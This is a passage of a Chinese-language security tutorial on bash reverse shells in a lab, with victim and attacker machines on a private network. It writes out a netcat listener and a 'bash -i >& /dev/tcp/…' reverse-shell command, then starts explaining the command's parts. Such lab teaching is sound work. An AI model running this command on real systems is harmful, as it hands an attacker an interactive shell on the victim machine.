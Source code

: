 **受害者：**

```php
Ubuntu Linux ------> 192.168.1.129
```

**攻击者：**

```php
Kali Linux ------> 192.168.1.130
```

我们就以最常见的bash为例：
攻击机器上执行：

```php
nc -lvp 2333
```

受害机器上执行：

```shell
bash -i >& /dev/tcp/192.168.1.130/2333 0>&1
```

你就会看到下图：

![img](assets/1668670336301-41ff96b3-0fb5-4889-bdeb-103e5d029fc5.png)

可以看到在攻击机上出现了受害者机器的shell

解释一下这条命令具体的含义：

**1.bash -i**

```shell
1）bash 是linux 的一个比较常见的shell,其实linux的shell还有很多，比如 sh、zsh、等，他们之间有着细小差别
2）-i 这个参数表示的是产生交互式的shell
```

**2./dev/tcp/ip/port**

```shell
/dev/tcp|udp/ip/port 这个文件是特别特殊的，实际上可以将其看成一个设备（Linux下一切皆文件），
其实如果你访问这个文件的位置他是不存在的，如下图：
```

![img](assets/1668670502297-36619193-aaac-42c8-aceb-7ff208b2183b.png)

但是如果你在一方监听端口的情况下对这个文件进行读写，就能实现与监听端口的服务器的socket通信
